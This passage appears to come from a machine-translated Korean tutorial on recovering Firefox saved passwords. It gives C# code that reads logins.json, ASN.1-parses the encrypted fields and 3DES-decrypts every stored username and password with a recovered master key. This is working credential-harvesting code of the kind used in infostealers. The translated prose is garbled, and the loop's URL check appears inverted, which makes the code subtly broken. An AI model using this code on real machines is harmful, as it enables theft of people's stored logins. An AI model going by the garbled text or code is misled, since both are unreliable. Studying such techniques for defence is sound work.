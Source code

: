 Decrypt3DES()그런 다음 이러한 값은 동일한 암호 값 을 사용 하여 함수에 전달됩니다 . 해독된 마스터 키는 PKCS#7 패딩됨

### 5단계 - 암호화된 자격 증명 읽기 및 역직렬화

Newtonsoft의 Json.NET 을 사용 하여 .NET에서 로그인 데이터를 역직렬화했습니다 `logins.json`. Visual Studio를 사용하면 JSON 데이터를 매우 쉽게 처리할 수 있으며 JSON 데이터를 새 클래스 파일에 복사/붙여넣기만 하면 클래스를 생성할 수 있습니다. 이 특별한 경우에 "Rootobject"는 각 개별 로그인에 대한 모든 데이터를 저장하는 "Login" 중첩 클래스의 배열을 포함합니다. 거기에서 모든 로그인 데이터를 쉽게 추출할 수 있습니다.

```
public FirefoxLoginsJSON.Rootobject GetJSONLogins(string profileDir)
{
    string file = File.ReadAllText(profileDir + @"\logins.json");
    FirefoxLoginsJSON.Rootobject JSONLogins = JsonConvert.DeserializeObject<FirefoxLoginsJSON.Rootobject>(file);

    return JSONLogins;
}
```

### 6단계 - 신용을 해독하십시오!

이제 로그인 데이터 모음을 로 사용할 수 있습니다 JSON Logins. 각각 JSON Logins.Login.EncryptedUsername은 JSONLogins.Login.EncryptedPAssword 여전히 ​​ASN.1입니다. ASN.1 데이터 구조는 아래에서 볼 수 있듯이 마스터 키 및 암호 확인에 사용된 것과 약간 다릅니다. 이제 남은 작업은 다음과 같습니다.

1. Login각 객체에 대해 반복JSONLogins
2. ASN.1은 각 사용자 이름과 암호를 해독합니다.
3. 3DES는 마스터 키를 사용하여 각 사용자 이름과 비밀번호를 해독합니다.
4. 해독된 각 사용자 이름과 비밀번호를 해당 URL과 함께 컬렉션에 추가합니다.

```
foreach (FirefoxLoginsJSON.Login login in JSONLogins.Logins)
{                 
 if (string.IsNullOrWhiteSpace(login.FormSubmitURL))
 {
 byte[] usernameBytes = Convert.FromBase64String(login.EncryptedUsername);
 byte[] passwordBytes = Convert.FromBase64String(login.EncryptedPassword);

 ASN1 usernameASN1 = new ASN1(usernameBytes);

 byte[] usernameIV = usernameASN1.RootSequence.Sequences[0].Sequences[0].OctetStrings[0];
 byte[] usernameEncrypted = usernameASN1.RootSequence.Sequences[0].Sequences[0].OctetStrings[1];

 ASN1 passwordASN1 = new ASN1(passwordBytes);

 byte[] passwordIV = passwordASN1.RootSequence.Sequences[0].Sequences[0].OctetStrings[0];
 byte[] passwordEncrypted = passwordASN1.RootSequence.Sequences[0].Sequences[0].OctetStrings[1];

 string decryptedUsername = Encoding.UTF8.GetString(Unpad(Decrypt3DESLogins(usernameEncrypted, usernameIV, Decrypted3DESKey)));
 string decryptedPassword = Encoding.UTF8.GetString(Unpad(Decrypt3DESLogins(passwordEncrypted, passwordIV, Decrypted3DESKey)));

 BrowserLoginData loginData = new BrowserLoginData(login.FormSubmitURL, decryptedUsername, decryptedPassword, "Firefox");
 FirefoxLoginDataList.Add(loginData);
 }
}
```
